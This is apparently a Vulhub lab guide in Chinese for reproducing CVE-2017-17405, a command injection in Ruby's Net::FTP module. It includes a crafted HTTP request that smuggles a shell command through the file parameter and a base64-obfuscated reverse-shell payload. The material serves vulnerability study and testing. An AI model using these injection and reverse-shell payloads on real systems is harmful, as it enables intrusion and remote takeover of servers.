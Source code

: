 # Ruby Net::FTP 模块命令注入漏洞（CVE-2017-17405）

Ruby Net::FTP 模块在Ruby中用于处理和FTP协议相关的功能。

Ruby 2.4.3版本前，Net::FTP 模块在上传和下载文件时使用了`open`函数。而`open`函数借用系统命令来打开文件，且未过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

参考链接：

- <https://blog.heroku.com/identifying-ruby-ftp-cve>
- <https://www.exploit-db.com/exploits/43381>

## 漏洞环境

执行如下命令使用Ruby 2.4.1启动一个Web服务：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python的pyftpdlib：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后，将刚才启动的FTP服务器地址作为*uri*参数，`|touch${IFS}success.txt`作为*file*参数，替换进下面的请求发送：

```
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

然后进入docker容器内，可见success.txt已被创建：

![](2.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![](3.png)
